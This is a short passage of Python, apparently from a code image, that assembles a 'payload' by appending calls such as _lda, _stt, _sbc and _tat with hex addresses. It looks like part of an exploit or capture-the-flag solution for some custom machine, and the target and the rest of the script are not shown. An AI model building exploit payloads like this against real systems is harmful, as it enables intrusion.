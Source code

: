 ```py
payload += _lda(0x186)
payload += _stt()

payload += _ldc(0xf78)
payload += _sbc(0x196)
payload += _tat()
payload += _lda(0x18e)
payload += _stt()
payload += _lda(0xf7a)
payload += _sbc(0x194)
payload += _tat()
payload += _lda(0x190)
payload += _stt()
payload += _lda(0xf7c)
payload += _tat()
payload += _lda(0x192)
payload += _stt()

payload += _ldc(0xf78)
payload += _sbc(0x1aa)
payload += _tat()
payload += _lda(0x1ac)
payload += _stt()
payload += _lda(0xf7a)
payload += _sbc(0x1a8)
payload += _tat()
payload += _lda(0x1ae)
payload += _stt()
payload += _lda(0xf7c)
payload += _tat()
payload += _lda(0x1b0)
payload += _stt()

payload += _ldc(0xed0)
payload += _adc(0x18c)
payload += _tat()
payload += _lda(0x17c)
payload += _stt()

payload += _lda(0xed2)
payload += _tat()
payload += _lda(0x17e)
payload += _stt()

payload += _lda(0xed4)
payload += _tat()
payload += _lda(0x180)
payload += _stt()

payload += _ldc(0x1a0)
payload += _tat()
payload += _lda(0x198)
payload += _stt()
payload += _lda(0x1a2)
payload += _tat()
payload += _lda(0x19a)
payload += _stt()
payload += _lda(0x1a4)
payload += _tat()
payload += _lda(0x19c)
payload += _stt()
payload += _lda(0x1a6)
payload += _tat()
```